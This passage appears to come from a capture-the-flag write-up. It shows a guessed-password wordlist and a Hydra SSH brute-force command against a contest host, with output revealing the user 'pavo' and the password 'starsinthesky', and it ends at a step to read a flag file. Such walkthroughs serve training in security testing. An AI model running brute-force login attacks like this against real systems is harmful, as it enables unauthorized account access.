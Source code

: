 ```text
moonstars
sunmoonstars
starsailor
silverstars
sevenstars
lilstars
dotaallstars
sunstars
starsun
starsstars
starsareblind
pokerstars
magicstars
divastars
blackstars
starstarstar
starsearch
luvstars
greenstars
deathstars
brightstars
twinstars
starsinthesky
starshooter
starsha
threestars
summerstars
starspirit
starshollow
starsandstripes
starsandmoons
nightstars
metrostars
icstars
hoodstars
deadstars
citystars
```

#### Crack login for pavo

```text
hydra -L users -P pass -s 31663 challenge.nahamcon.com -t 5 ssh
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-12 21:48:53
[DATA] max 10 tasks per 1 server, overall 10 tasks, 528 login tries (l:8/p:66), ~53 tries per task
[DATA] attacking ssh://challenge.nahamcon.com:31663/
[STATUS] 66.00 tries/min, 66 tries in 00:01h, 462 to do in 00:07h, 10 active
[31663][ssh] host: challenge.nahamcon.com   login: pavo   password: starsinthesky
```

#### login and get ~/flag.txt
